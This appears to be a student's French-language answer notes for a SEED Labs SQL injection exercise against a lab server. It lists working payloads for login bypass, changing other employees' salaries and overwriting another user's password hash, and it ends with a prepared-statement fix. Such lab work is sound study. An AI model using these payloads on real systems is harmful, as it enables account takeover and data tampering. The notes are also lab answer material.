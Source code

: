 
``WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";```
Task 2.1 : username = admin' -- (avec un espace à la fin)

2.2 : curl 'www.seed-server.com/unsafe_home.php?username=admin%27%20--%20'

2.3 : pas possible : voir doc de query

3 . alice' --

3.3. alice', SALARY='1' WHERE Name LIKE 'ALICE' -- 

3.4. ', SALARY='1' WHERE Name LIKE 'Boby' -- 

3.5. https://www.sha1.fr/
Password  : 'boss' en clair => '05b1f356646c24bf1765f6f1b65aea3bde7247e1' en sha1

dans le nickname : ', PASSWORD='05b1f356646c24bf1765f6f1b65aea3bde7247e1' WHERE Name LIKE 'Boby' -- 

Puis Logout, et log in avec Username : Boby et Password : boss

Task 4. 

```
$result = $conn->prepare("SELECT id, name, eid, salary, ssn 
FROM credential WHERE name= ? and Password= ? ");

// Bind parameters to query
$result->bind_param("ss", $input_uname, $hashed_pwd);
$result->execute();
$result->bind_result($id, $name, $eid, $salary, $ssn);

if ($result->fetch()) {
// do something here with data
}
```

4. Guidelines : 
A tester : SELECT * from credential WHERE name='' or 1=1; # and password='password';
